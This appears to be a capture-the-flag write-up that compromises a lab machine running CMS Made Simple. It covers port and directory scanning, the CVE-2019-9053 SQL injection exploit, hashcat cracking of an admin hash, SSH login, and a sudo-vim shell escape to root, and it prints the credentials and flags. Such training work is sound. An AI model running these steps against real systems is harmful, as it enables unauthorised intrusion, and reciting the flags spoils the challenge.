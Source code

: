 # EasyCTF


1. Enumerate with nmap. 2 services are runningn under port 1000, and ssh is running on the higher port at 2222
```
root@ip-10-10-221-120:~# sudo nmap -sC -A 10.10.164.10

Starting Nmap 7.60 ( https://nmap.org ) at 2022-02-21 06:37 GMT
Nmap scan report for ip-10-10-164-10.eu-west-1.compute.internal (10.10.164.10)
Host is up (0.00042s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.221.120
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (EdDSA)
MAC Address: 02:AF:54:CB:F3:77 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.13 (92%), Linux 3.8 (92%), Crestron XPanel control system (89%), HP P2000 G3 NAS device (86%), ASUS RT-N56U WAP (Linux 3.4) (86%), Linux 3.1 (86%), Linux 3.16 (86%), Linux 3.2 (86%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (86%), Linux 2.6.32 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.42 ms ip-10-10-164-10.eu-west-1.compute.internal (10.10.164.10)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.65 seconds
```

2. Run gobuster on the we server at port 80. The directory on `robots.txt` doesn't exist, so it's probably a distraction. `/simple` shows us that `CMS Made Simple` is installed
```
root@ip-10-10-221-120:~# gobuster dir -u http://10.10.164.10/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.164.10/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/02/21 06:40:21 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
/simple (Status: 301)
===============================================================
2022/02/21 06:40:21 Finished
===============================================================
```

3. Research on `CMS Made Simple` shows us that it had a SQL injection (SQLI) vulnerability `CVE-2019-9053`. `https://nvd.nist.gov/vuln/detail/CVE-2019-9053`, `http://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-9053`. We also find an exploit script `https://www.exploit-db.com/exploits/46635`

4. Run the exploit with `python exploit.py -u http://10.10.164.10/simple/ --crack -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best110.txt`. It gives an error and doesn't crack the hash for us, so we have to crack it manually
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[*] Try: 000000
Traceback (most recent call last):
  File "exploit.py", line 184, in <module>
    crack_password()
  File "exploit.py", line 56, in crack_password
    if hashlib.md5(str(salt) + line).hexdigest() == password:
TypeError: Unicode-objects must be encoded before hashing
```

5. Save the salt and hash to a file in this format `0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2` and then run hashcat with `hashcat -a 0 -m 20 hash /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best110.txt` to get `secret`

6. Log into ssh with `ssh -p 2222 mitch@<ip address>` and the password `secret`. `-p` is necessary because ssh is not running on the default port

7. Print out the user flag `G00d j0b, keep up!`, we see that `sunbath` is a user directory in `/home`

8. Use `sudo -l` to list sudo permissions, we see that we can run vim as admin, use `sudo vim -c ':!/bin/sh'` to get a root shell and print out `root.txt` to get `W3ll d0n3. You made it!`
